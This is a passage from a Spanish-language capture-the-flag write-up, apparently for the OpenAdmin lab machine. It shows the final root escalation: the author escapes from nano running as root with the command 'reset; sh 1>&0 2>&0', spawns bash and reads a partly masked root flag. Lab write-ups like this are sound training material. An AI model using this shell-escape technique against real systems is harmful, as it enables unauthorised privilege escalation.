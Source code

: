 Teniendo esto en cuenta, podemos aprovecharnos de esto para ganar acceso a una shell a través del siguiente comando.

```bash
reset; sh 1>&0 2>&0
```

<figure><img src="../../.gitbook/assets/5440_vmware_DZfbDtVaH9.png" alt=""><figcaption></figcaption></figure>

Verificamos que por detrás de `nano`, se nos ha abierto una `shell` en la cual podemos ejecutar comandos. Ejecutaremos `/bin/bash`para obtener una `bash`. Finalmente logramos visualizar la flag **root.txt**.

<figure><img src="../../.gitbook/assets/5441_vmware_cIDCOTELmi.png" alt=""><figcaption></figcaption></figure>

```bash
# whoami
root
# /bin/bash   
root@openadmin:/home/joanna# cat /root/root.txt 
9452****************************
```
